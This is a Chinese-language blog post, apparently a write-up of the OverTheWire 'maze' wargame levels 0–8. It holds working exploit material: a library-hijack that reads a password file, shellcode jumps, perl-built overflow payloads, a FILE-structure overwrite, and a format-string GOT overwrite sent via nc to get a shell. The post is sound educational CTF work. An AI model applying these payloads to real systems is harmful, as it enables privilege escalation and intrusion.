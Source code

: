 ```yaml
---
title: maze
author: rk700
layout: post
redirect_from:
  - /writeup/2014/07/14/maze
  - /writeup/2014/07/14/maze/
tags:
  - OverTheWire
  - exploit
---
```

*  **maze0**  
race condition，以前做过，于是懒得再弄了

*  **maze1**  
`ldd`检查发现会加载当前目录下的`libc.so.4`。于是我们写一个文件 


{% highlight c %}
int __libc_start_main() {
    int fd = open("/etc/maze_pass/maze2", 0);
    char buf[64];
    int numRead = read(fd, buf, sizeof buf);
    buf[numRead] = 0;
    write(1, buf, numRead);
    return 0;
}
{% endhighlight %}
    

这里的输入输出没有用libc里的fopen，printf等，因为没有加载正确的libc.so
    
将该文件编译成动态库：
    
<pre>$ gcc --shared -fPIC 1.c -o libc.so.4</pre>
    
再运行程序，就会调用我们提供的start_main

*   **maze2**  
把payload提供为argv即可。调用时会执行我们提供的argv[1]的内容；由于最多只能复制8个字符，所以把shellcode放环境变量，然后跳到那里： 

{% highlight nasm %}
BITS 32
mov eax, 0xffffd8d8
jmp eax
{% endhighlight %}
        
正好7个字符，然后执行
        
<pre>$ /maze/maze2 `perl -e 'print "\xb8\xd8\xd8\xff\xff\xff\xe0"'`</pre>
        
*   **maze3**  
    只有个_start，估计是纯手写的汇编。 
    关于linux下main函数的启动，<http://tldp.org/LDP/LGNET/84/hawk.html>有一篇文章。于是可以知道，进入\_start之后，栈顶由高到底依次为：argc, &argv[0], &argv[1], &argv[2],&#8230;。而\_start一般来说会执行 
            
{% highlight objdump %}
 080482d0 <_start>:
 80482d0:       31 ed                   xor    %ebp,%ebp
 80482d2:       5e                      pop    %esi
 80482d3:       89 e1                   mov    %esp,%ecx
...
 80482e5:       51                      push   %ecx
 80482e6:       56                      push   %esi
{% endhighlight %}
            

这里就把argv和argv推到栈上了。

对于我们的程序，首先取出argc,看减1后是否为0，如果是的话退出。

然后调用了mprotect，是修改内存属性，7的话应该是rwx，于是我们接下来可以修改指令部分了。接着是把44bytes指令取出(ecx=0x2c)，与0x12345678做XOR，再保存回原来的地方(edi=edi=d1)，接着就执行这一部分的内容。全部XOR之后，将要执行的代码变成：
            

{% highlight objdump %}
=> 0x80480cb <d1>:      pop    %eax
   0x80480cc <d1+1>:    cmpl   $0x1337c0de,(%eax)
   0x80480d2 <d1+7>:    jne    0x80480ed <d1+34>
   0x80480d4 <d1+9>:    xor    %eax,%eax
   0x80480d6 <d1+11>:   push   %eax
   0x80480d7 <d1+12>:   push   $0x68732f2f
   0x80480dc <d1+17>:   push   $0x6e69622f
   0x80480e1 <d1+22>:   mov    %esp,%ebx
   0x80480e3 <d1+24>:   push   %eax
   0x80480e4 <d1+25>:   push   %ebx
   0x80480e5 <d1+26>:   mov    %esp,%ecx
   0x80480e7 <d1+28>:   xor    %edx,%edx
   0x80480e9 <d1+30>:   mov    $0xb,%al
   0x80480eb <d1+32>:   int    $0x80
   0x80480ed <d1+34>:   mov    $0x1,%eax
   0x80480f2 <d1+39>:   xor    %ebx,%ebx
   0x80480f4 <d1+41>:   inc    %ebx
   0x80480f5 <d1+42>:   int    $0x80
{% endhighlight %}
            
由于之前有pop了一次，所以这里是把argv[1]和0x1337c0de比较，相等的话就有shell了。于是执行
            
<pre>$ /maze/maze3 `perl -e 'print "\xde\xc0\x37\x13"'`</pre>
            
多说一句，1337这个数经常见到，因为是<http://en.wikipedia.org/wiki/Leet>
*   **maze4**  
这里会检查提供的文件，如果符合要求则执行。具体检查如下： 


{% highlight c %}
...
        Elf32_Ehdr ehdr;
        Elf32_Phdr phdr;
        struct stat st;
...

        /* read Elf-header */
        read(fd,&ehdr,sizeof(Elf32_Ehdr));

        /* read Program-header */
        lseek(fd,ehdr.e_phoff,SEEK_SET);
        read(fd,&phdr,sizeof(Elf32_Phdr));

        /* check */
        if(phdr.p_paddr == (ehdr.e_ident[EI_OSABI]*ehdr.e_ident[EI_ABIVERSION]) &&
           st.st_size < 120) {
                printf("valid file, executing\n");
                execv(argv[1],NULL);
        }
{% endhighlight %}
                
而如果提供ELF文件，那么p_paddr在0x08040000之后，但两个bytes相乘不太可能等于那么大的数。

但如果是脚本文件，就不用那么费事了。 

<pre>$ perl -e 'print "#!/bin/sh\ncat maze5\n#" . "-"x7 . "\x14\x00\x00\x00" . "\xb8\x2e\x00\x00"' > overthewire/maze/maze4.sh</pre>
                
两个相乘的bytes在0x7、0x8处，是s和h。program header在0x1c，我们把那里写成0x14。这样再找p_paddr就会在0x14+0xc=0x20，那里写成乘积0x2eb8。这样就符合要求了。
                
为了省事儿，我把密码文件链接到当前目录下面了。而且用sh而不是bash，因为setuid的问题。
                
*   **maze5**  
检查用户名和密码，都是8bytes，而且password[i]=&#8217;printlol&#8217;[i]-(username[i]-65)-2*i。这样我们如果提交username为A?=;9753，那么-2i被抵消，密码还是printlol

*   **maze6**  
这里可以覆盖FILE指针地址，也就是说可以使用我们提供的FILE结构。其定义在文件libio.h中，名字是\_IO\_FILE。 

<http://www.ouah.org/fsp-overflows.txt>有一篇参考文章。
                    
fprintf最终会调用vfprintf。参考FILE的定义，开始处有一些指针，我们把那里都写成jump table的地址。然后
                    
{% highlight objdump %}
...
   0xf7e6467d <vfprintf+29>:    mov    0x8(%ebp),%esi
...
   0xf7e64798 <vfprintf+312>:   movsbl 0x46(%esi),%eax
   0xf7e6479c <vfprintf+316>:   sub    0xc(%ebp),%edi
   0xf7e6479f <vfprintf+319>:   mov    0x94(%esi,%eax,1),%eax
...
   0xf7e647ba <vfprintf+346>:   call   *0x1c(%eax)
{% endhighlight %}
                    
可以看到，FILE的地址放在了esi,esi+0x46处的signed char被取出。参考定义这个是signed char \_vtable\_offset；然后此offset加上0x94得到table的地址；最后0x1c加table地址被调用。
                    
于是，我们把第0x46处写成8,接下来作为jump table的内容，存的全是SHELLCODE的地址。 
                    
<pre>$ ./maze6 1 `perl -e 'print "\x2a\xf2\xd5\xd5"x17 . "\x2e\x2e\x22\x2e" . "\x7e\xf3\xd5\xd5"x22 . "\xf7\xf6\xd5\xd5"x24 . "\x96\xf2\xd5\xd5"'`</pre>
                    
*   **maze7**  
首先读取起始的0x34=52个bytes，并从中获取参数，传给函数print_shdrs；然后在这个函数中的`read(fd,&v5,nbytes)`处可以向下覆盖至返回地址，由于这次的读文件还需要保持堆上的地址，所以我们再放72bytes在文件的后面。 

要注意的是，向下覆盖时会重写ptr和buf的值。为了后面的free不出错，我们用gdb获得这两个堆上的地址，然后放到文件相应的地方；此外，在printf中会打印一个字符串，我们最好保证地址不要越界，也就是v5不要超过ptr的长度。
                        
<pre>$ perl -e 'print "A"x32 . "\x34\x00\x00\x00" . "A"x10 . "\x48\x00" . "\x01\x00" . "\x00\x00" . "\x00"x20 . "\x10\x00\x00\x00" . "\x00"x16 . "\x38\xa0\x04\x08" . "AAAA" . "\x08\xa0\x04\x08" . "\x02\x00\x00\x00" . "A"x8 . "ebp-" . "\x05\xd9\xff\xff"' > f
$ /maze/maze7 f</pre>
                        
*   **maze8**  
会监听1337端口。另外，snprintf存在format string。我们选择修改send的got地址，这需要同时联两个到ssh上面，一个把shellcode放到环境变量并启动maze8，另一个发送我们构造的内容： 
<pre>$ perl -e 'print "\x78\x9d\x04\x08" . "\x79\x9d\x04\x08" . "\x7a\x9d\x04\x08" . "\x7b\x9d\x04\x08" . "%245x%11\$hhn" . "%212x%12\$hhn" . "%38x%13\$hhn" . "%14\$hhn"' | nc 127.0.0.1 1337</pre>
                            
这样maze8那边就得到shell
